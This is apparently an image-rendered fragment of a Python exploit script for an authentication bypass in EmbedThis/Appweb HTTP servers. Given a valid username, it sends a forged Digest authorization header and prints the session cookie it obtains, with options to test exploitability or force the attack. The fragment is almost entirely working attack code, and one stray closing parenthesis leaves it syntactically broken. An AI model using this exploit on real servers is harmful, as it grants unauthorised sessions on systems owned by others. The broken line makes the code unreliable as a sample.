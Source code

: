 ```python
    payload = { "username": username }

    headers = {
        "authorization": "Digest username={}".format(username),
        "user-agent": "TruelBot",
        "content-type": "application/x-www-form-urlencoded",
    }

    if authtype == "digest":
        r = requests.get(url, data=payload, headers=headers)
    else:
        r = requests.post(url, data=payload, headers=headers)

    print(r.content)

    if r.status_code != 200 or len(r.cookies) < 1:
        print("[!] Exploit failed, HTTP status code {}".format(r.status_code))
        return

    print("[*] Succesfully exploited, here's your c00kie:\n  {}".format(dict(r.cookies))

)
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Test&Exploit EmbedThis form/digest authentication bypass (CVE-XXXX-YYYY)")
    parser.add_argument('-t', '--target', required=True, help="specify the target url (i.e., http(s)://target-url[:port]/)")
    parser.add_argument('-u', '--user', required=True, help="you need to know a valid user name")
    parser.add_argument('-c', '--check', action='store_true', default=False, help="test for exploitability without running the actual exploit")
    parser.add_argument('-f', '--force', action='store_true', default=False, help="skip exploitability test")
    args = parser.parse_args()

    url = args.target
    username = args.user
    t = "form" # default will try form/post
    if args.check or not args.force:
        t = test(url)

    if t is None:
        print("[!] Target does not appear to be Appweb/Embedthis HTTP with form/post auth (force with -f)")
    else:
        print("[+] Potential appweb/embedthis http, {} method".format(t))

    if not args.check:
        print("[!] Exploiting {}, user {}!".format(url, username))
        exploit(url, username, t)
```
